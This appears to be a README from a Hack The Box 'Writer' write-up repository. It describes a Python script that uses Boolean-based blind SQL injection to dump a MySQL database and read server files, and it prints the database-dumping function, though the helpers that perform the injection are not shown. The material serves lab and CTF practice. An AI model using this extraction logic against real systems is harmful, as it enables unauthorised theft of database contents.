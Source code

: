 # Hack The Box. Machines. Writer

Machine write-up: https://7rocky.github.io/en/htb/writer

### `sqli.py`

This is an automated Python script that dumps the contents of the current MySQL database exploiting a Boolean-based blind SQL injection. It also provides the option to read files from the server using `LOAD_FILE`.

The function that dumps the database is `dump_db`:

```python
def dump_db():
    print('Version:', dump_content('version()'))
    db = {}
    database = dump_content('database()')
    n_tables = dump_content(
        sql(COUNT, TABLES, f"table_schema='{database}'"))

    db[database] = {}

    for i in range(int(n_tables)):
        table_name = dump_content(
            sql('table_name', TABLES, f"table_schema='{database}'", i))

        db[database][table_name] = {}

        if table_name == 'stories':
            continue

        n_cols = dump_content(
            sql(COUNT, COLUMNS, f"table_name='{table_name}'"))
        n_rows = dump_content(
            sql(COUNT, table_name))

        for j in range(int(n_cols)):
            column_name = dump_content(
                sql('column_name', COLUMNS, f"table_name='{table_name}'", j))

            if db[database][table_name].get(column_name) is None:
                db[database][table_name][column_name] = []

            if column_name in {'ganalytics', 'date_created'}:
                continue

            for k in range(int(n_rows)):
                row_value = dump_content(
                    sql(column_name, table_name, limit=k))
                db[database][table_name][column_name].append(row_value)

    print(json.dumps(db, indent=2))
```
